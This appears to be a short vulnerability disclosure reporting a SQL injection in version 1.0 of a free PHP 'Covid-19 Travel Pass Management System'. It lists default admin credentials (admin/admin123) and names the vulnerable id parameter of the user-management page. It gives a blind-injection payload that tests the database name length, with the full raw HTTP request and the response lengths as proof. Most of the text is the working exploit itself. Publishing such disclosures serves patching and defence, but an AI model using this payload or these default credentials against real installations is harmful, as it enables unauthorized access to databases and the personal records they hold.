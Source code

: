 # Covid-19 Travel Pass Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15308/covid-19-travel-pass-management-system-phpoop-free-source-code.html

Vulnerability File: /ctpms/admin/?page=user/manage_user&id=

Vulnerability location: /ctpms/admin/?page=user/manage_user&id=,id

[+] Payload: /ctpms/admin/?page=user/manage_user&id=3%27%20and%20length(database())%20=8--+ // Leak place ---> id

Current database name: ctpms_db,length is 8

```sql
GET /ctpms/admin/?page=user/manage_user&id=3%27%20and%20length(database())%20=8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=sbd29ujtf9eelnf4f6rlt8ikfi
Connection: close
```

When length (database ()) = 7, Content-Length: 25990

![image](https://user-images.githubusercontent.com/54017627/167083259-62da61e3-b0e0-4182-938e-acae5998fce1.png)

![image](https://user-images.githubusercontent.com/54017627/167083168-9c59b063-26f1-4485-97ca-3e6a69ed6b52.png)

When length (database ()) = 8, Content-Length: 25957

![image](https://user-images.githubusercontent.com/54017627/167083205-c5fc1854-3e9c-43d5-b794-95e28566c429.png)

![image](https://user-images.githubusercontent.com/54017627/167083107-d427bb82-4dbe-4555-92c8-30add9d329b8.png)
